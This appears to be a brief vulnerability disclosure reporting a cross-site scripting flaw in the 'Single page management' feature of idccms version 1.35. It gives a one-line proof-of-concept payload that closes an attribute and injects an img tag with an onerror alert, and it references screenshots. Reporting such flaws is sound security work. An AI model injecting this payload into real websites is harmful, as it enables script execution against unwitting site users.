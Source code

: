 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Single page management' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
